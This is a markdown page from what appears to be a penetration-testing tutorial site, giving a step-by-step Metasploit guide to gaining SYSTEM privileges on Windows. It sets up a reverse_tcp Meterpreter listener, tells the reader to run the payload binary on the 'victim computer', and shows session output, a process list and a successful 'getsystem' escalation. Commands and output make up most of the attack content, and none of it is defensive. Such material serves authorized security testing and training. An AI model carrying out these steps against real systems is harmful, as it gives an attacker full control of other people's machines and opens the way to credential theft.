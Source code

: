 ```yaml
---
title: "PrivEsc using GetSystem"
layout: single
permalink: /library/pentesting/metasploit/meterpreter-getsystem-privesc/
author_profile: false
classes: wide
header:
    image: _pages/library/pentesting/metasploit/metasploit.jpg
sidebar:
    nav: "metasploit"
---
```


## Introduction

Acquiring SYSTEM privileges on a Windows system is a crucial task for penetration testers and red teamers, enabling them to carry out advanced post-exploitation actions such as credential extraction and accessing confidential data. The GETSYSTEM command within Meterpreter proves to be a potent tool, empowering attackers to elevate privileges and execute commands at the SYSTEM level.

## Step-by-Step Guide

### 1. Create the meterpreter binary
    
How-To: [Creating a Meterpreter Binary](../metasploit/meterpreter-binary-creation/)

### 2. Open Metasploit Console

```bash
msfconsole
```

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer


### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Use 'getsystem' command to escalate to SYSTEM-leve access
```bash
meterpreter > getuid
Server username: WIN-AJ4C67166DE\win7
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Video Demonstration

{% include video id="TJF_LnRMdCk" provider="youtube" %}

## Reference
https://www.offsec.com/metasploit-unleashed/keylogging/#using-a-keylogger-with-metasploit
